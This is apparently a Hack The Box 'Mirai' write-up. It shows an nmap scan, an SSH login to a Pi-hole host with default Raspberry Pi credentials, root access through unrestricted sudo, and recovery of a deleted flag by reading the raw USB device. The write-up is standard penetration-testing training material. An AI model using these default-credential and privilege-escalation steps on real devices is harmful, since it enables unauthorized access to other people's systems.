 # Hack The Box: Mirai

## Difficulty: Easy
## OS: Linux

## Enumeration

We'll begin with an Nmap scan to enumerate open ports and services.

```bash
nmap -sC -sV -oN outputNMAP.txt -p- 10.129.8.120
```

Let's take a look at the results.

![NmapS](img1.png)

The site on port 80 is initially blocked. By adding the IP and hostname "mirai.htb" to the /etc/hosts file, we gain access to the web server.

This reveals that the service in use is "Pi-hole v3.1.4". Default credentials for Pi-hole are often pi-hole:pi-hole or pi:raspberry.

Manual directory brute-forcing reveals an admin directory.

![AdminP](img2.png)

Default credentials do not work on the website, but the SSH port is open.

## Foothold: Default Credentials vulnerability

Using default credentials, we can connect to the target via SSH.

```bash
ssh pi@10.129.8.147
raspberry
```

![SSH](img3.png)

We can retrieve the user flag.

```bash 
ls
cd Desktop
cat user.txt
```

## We got the user flag!

## Privelage Escalation

Let's check what commands we can run as root.

```bash
sudo -l
```

![SudoL](img4.png)

The user "pi" can run all commands as root, so we'll switch to the root user and retrieve the root flag.

```bash
sudo su
cd /root
ls
cat root.txt
```

![root.txt](img5.png)

We'll also inspect the USB stick.

```bash
cd /media
ls
cd /usbstick
cat damnit.txt
```

![usbNote](img6.png)

The flag has been removed, but it might still be found in the raw memory.

```bash
lsblk -f
```

This command reveals the name of the memory file where the USB stick is mounted.

```bash
cat /dev/sdb
```

This displays the raw memory.

![mem](img7.png)

## We got the root flag!